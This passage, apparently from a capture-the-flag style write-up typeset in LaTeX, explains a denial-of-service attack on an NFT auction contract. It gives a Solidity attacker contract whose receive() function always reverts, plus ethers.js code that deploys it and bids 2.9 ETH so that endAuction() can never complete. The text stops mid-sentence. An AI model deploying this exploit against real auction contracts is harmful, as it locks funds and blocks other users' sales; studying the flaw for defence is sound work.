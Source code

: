 \documentclass[12pt]{article}
\begin{document}
The solution exploits this vulnerability through a malicious contract that:

\begin{enumerate}
\item Places a valid bid to be added to the bidders list
\item Implements a \texttt{receive()} function that deliberately reverts when it receives ETH
\end{enumerate}

This ensures that when the auction tries to conclude, it will attempt to refund our malicious contract, which will reject the payment and cause the entire transaction to fail.

\begin{lstlisting}[language=Solidity]
contract NFTAuctionAttacker {
    // Error for rejection
    error RejectPayment();
    
    // The NFT auction contract to attack
    INFTAuction public nftAuction;
    
    constructor(address _nftAuction) {
        nftAuction = INFTAuction(_nftAuction);
    }
    
    // Function to place a bid on the auction
    function attack() external payable {
        nftAuction.bid{value: msg.value}();
    }
    
    // This function will revert when the auction tries to refund this contract
    // causing the entire endAuction transaction to fail
    receive() external payable {
        revert RejectPayment();
    }
}
\end{lstlisting}

\noindent
To execute the attack, we deploy the attacker contract and bid through it:

\begin{verbatim}
// Deploy our attacker contract
const NFTAuctionAttacker = 
  await ethers.getContractFactory("NFTAuctionAttacker", player);
const attackerContract = 
  await NFTAuctionAttacker.deploy(nftAuction.target);

// Place a bid through our attacker contract
// We bid more than the current highest bid to ensure we're included
await attackerContract.connect(player).attack({
    value: ethers.parseEther("2.9") // Higher than the last bid of 2.8 ETH
});
\end{verbatim}

The attack successfully locks the auction, since any attempt to call \texttt{endAuction()} will revert when trying to refund our malicious contract. As a result:
\end{document}
